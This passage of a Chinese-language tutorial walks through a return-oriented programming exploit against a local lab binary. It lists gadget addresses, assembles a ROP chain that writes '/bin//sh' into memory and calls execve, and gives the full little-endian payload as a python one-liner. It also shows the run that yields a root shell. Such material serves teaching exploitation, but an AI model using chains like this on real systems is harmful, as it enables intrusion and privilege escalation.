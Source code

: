 OK，找到了组成 exploit 的所有gadget
![](https://ww1.sinaimg.cn/large/005CA6ZCgw1f27454szgfj30ks0a8gnf.jpg)

选取的内存地址为 "0x08049704"

## ③ ROP 链如下:
```
pop ecx; pop eax;;ret + “/bin”+ address to write to --> mov [eax],ecx; ret --> xor eax,eax;ret --> 
pop edx;ret --> address to write too – 18 -->  mov [edx+18],eax;ret --> 
pop ecx;pop edx; ret + address of argp array + address of envp array --> 
pop ebx;ret + address of string “/bin//sh”  --> add eax,0xb;ret --> call gs:[0x10].
```

输入的数据格式：
```
“A”*260
+ 0xB7F3BF30 pop ecx ;     pop eax; ret
+ “/bin”                           string to be popped into ecx
+ 0x08049704                address to be popped into eax to write “/bin” to
+ 0xB7E8CECF 	 	mov [ecx],eax; ret
+ 0xB7F3BF30 		pop ecx ; pop eax; ret
+ “//sh” 		                 string to be popped into ecx
+ 0x08049708 		address to be popped into eax to write “//sh” to “0x0804971c +4”
+ 0xB7E8CECF 		mov [ecx],eax; ret
+ 0xB7EDC6BF 		xor eax,eax; ret
+ 0xB7E64A9E 		pop edx;ret
+ 0x080496f4 		        address to write NULL bytes to “0x08049708+4-18”
+ 0xB7E8D722 		mov [edx+0x18] eax ;ret
+ 0xB7E8D6EB 		pop ecx; pop edx; ret
+ 0x08049712 		address of argp array to be loaded into ecx pointing to NULL bytes.
+ 0x08049712 		address of envp array to be loaded into edx pointing to NULL bytes.
+ 0xB7EDBAF4 		pop ebx ; ret
+ 0x08049704 		pointer of string “/bin//sh”
+ 0xB7EE2AA8 		add eax 0xb ;ret
+ 0xB7F040F5 		call gs:[0x10] ; ret
```

一般都是小端存储，需要转换为小端存储格式
```
./rop2 `python -c 'print "A"*260 +"\x30\xbf\xf3\xb7"+"/bin"+"\x04\x97\x04\x08"+"\xcf\xce\xe8\xb7"+"\x30\xbf\xf3\xb7"+"//sh"+"\x08\x97\x04\x08"+"\xcf\xce\xe8\xb7"+"\xbf\xc6\xed\xb7"+"\x9e\x4a\xe6\xb7"+"\xf4\x96\x04\x08"+"\x22\xd7\xe8\xb7"+"\xeb\xd6\xe8\xb7"+"\x12\x97\x04\x08"+"\x12\x97\x04\x08"+"\xf4\xba\xed\xb7"+"\x04\x97\x04\x08"+"\xa8\x2a\xee\xb7"+"\xf5\x40\xf0\xb7"'`
```

## ④ 测试一下 shellcode 正确性和实用性
```
root@kali:~/Desktop/tuts/so# ./rop2 `python -c 'print "A"*260 +"\x30\xbf\xf3\xb7"+"/bin"+"\x04\x97\x04\x08"+"\xcf\xce\xe8\xb7"+"\x30\xbf\xf3\xb7"+"//sh"+"\x08\x97\x04\x08"+"\xcf\xce\xe8\xb7"+"\xbf\xc6\xed\xb7"+"\x9e\x4a\xe6\xb7"+"\xf4\x96\x04\x08"+"\x22\xd7\xe8\xb7"+"\xeb\xd6\xe8\xb7"+"\x12\x97\x04\x08"+"\x12\x97\x04\x08"+"\xf4\xba\xed\xb7"+"\x04\x97\x04\x08"+"\xa8\x2a\xee\xb7"+"\xf5\x40\xf0\xb7"'`
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
ROPgadget a.out core g get getenv.c rop rop2 rop3 ropeme ropeme-bhus10 ropeme-bhus10.tar rt rt2 rt2.c s so so.c so2 so2.c so3.c wrpr wrpr.c
#
```

OK！！！ROP 链成功新建了一个 shell。

# Ⅴ、参考文献
[Return-Oriented-Programming(ROP FTW)](https://www.exploit-db.com/docs/28479.pdf)
